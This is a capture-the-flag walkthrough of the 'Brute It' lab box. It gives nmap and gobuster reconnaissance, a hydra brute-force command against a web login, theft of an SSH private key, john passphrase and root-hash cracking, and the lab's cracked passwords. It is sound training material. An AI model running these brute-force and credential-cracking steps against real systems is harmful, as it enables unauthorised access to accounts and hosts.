








# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`

```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster


## The site


## gobuster
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`  


## /admin/source code


Details Acquired
-------------------
user = john  
username = admin  
password = ???  

# Brute force

Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```


now we have:  
username = `admin`  
password = `xavier`  

We login!  

Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```


Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```




# privilege escalation

## sudo -l


We get that we can read the `/etc/passwd` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
